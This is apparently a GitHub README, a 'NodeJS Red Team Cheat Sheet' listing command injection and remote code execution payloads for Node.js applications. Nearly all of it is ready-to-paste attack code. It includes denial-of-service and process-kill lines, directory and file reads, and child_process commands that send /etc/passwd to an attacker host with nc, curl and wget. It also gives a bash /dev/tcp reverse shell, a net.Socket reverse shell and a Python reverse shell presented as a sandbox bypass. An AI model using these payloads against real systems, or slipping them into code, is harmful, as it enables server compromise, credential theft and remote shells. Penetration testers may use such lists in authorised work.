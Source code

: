 # NodeJS Red Team Cheat Sheet

A curated list of NodeJs Command Injection / RCE Payloads.

### Know the evil functions
`eval()`,`setTimeout()`,`setInterval()`, `Function()`, `unserialize()`

### Know your weapons
`fs` , `child_process`, `net`, `http`

`spawn` = returns a stream, returns huge binary data to Node

`exec` = returns a buffer, should be used to return status

### Attack Vectors

Denial of Service
```javascript
while(1)
```
Exit the running process
```javascript
process.exit()
```

Kill Process
```javascript
process.kill(process.pid)
```

Read current working directory
```javascript
res.end(require('fs').readdirSync('.').toString())
```

Read previous directory
```javascript
res.end(require('fs').readdirSync('..').toString())
```

Read file
```javascript
res.end(require('fs').readFileSync(fname))
```
Spawn Magic ( by [@aaditya_purani](https://twitter.com/aaditya_purani))
```javascript
require('child_process').spawn('ls',['-a']).stdout.on('data', function (data) {console.log('own'+ data); });
```
Child exec ( by [@artsploit](https://twitter.com/artsploit) )
```javascript
require('child_process').exec('cat+/etc/passwd+|+nc+attackerip+80')
```

```javascript
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

```javascript
require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+attackersip.com')
```
Wget post data (by [@brutelogic](https://twitter.com/brutelogic))
```javascript
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

Using net (by [ibreak.software](http://ibreak.software))
```javascript
var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"attackerip",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Using arguments[1] as response object (by [@OrhanAlbay](https://twitter.com/OrhanAlbay))
```javascript
arguments[1].end(require('child_process').execSync('whoami'))
```
```javascript
arguments[1].end(require('child_process').execSync('cat /etc/passwd'))
```

Bypass stream limits by compressing to gzip (by @aaditya_purani)
```javascript
const pwn=require('zlib').createGzip();const inx=require('fs').createReadStream('app.json');const oux = require('fs').createWriteStream('unrestrictive.gz');inx.pipe(pwn).pipe(oux)
```

Sandbox Bypass spawnSync (by [netspi](https://t.co/3D9kWREcUz))
```
var resp = spawnSync('python',
['-c',
'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("127.0.0.1",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
]
);
print(resp.stdout);
print(resp.stderr);
```

### Need More ?
Repository would be mainted time to time. Feel free to contribute.

### Contact
[@aaditya_purani](https://twitter.com/aaditya_purani)
